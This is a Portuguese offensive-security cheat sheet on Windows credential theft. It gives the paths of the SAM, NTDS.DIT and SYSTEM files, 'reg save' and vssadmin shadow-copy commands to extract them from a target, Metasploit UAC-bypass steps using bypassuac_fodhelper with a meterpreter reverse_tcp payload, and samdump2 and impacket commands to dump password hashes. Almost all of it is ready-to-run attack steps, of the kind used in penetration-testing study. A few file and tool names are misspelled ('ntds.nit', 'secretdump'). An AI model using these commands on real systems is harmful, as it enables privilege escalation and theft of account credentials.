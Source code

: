 ## Windows Hashes

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``
LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**
Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**
Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``
``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**
Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``
``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``
``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**
Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**
Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Quebra de hashes Windows

Para visualizar os hashes que estão nos arquivos utilize uma das opções:

**Windows 2k/NT/XP/Vista**
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``




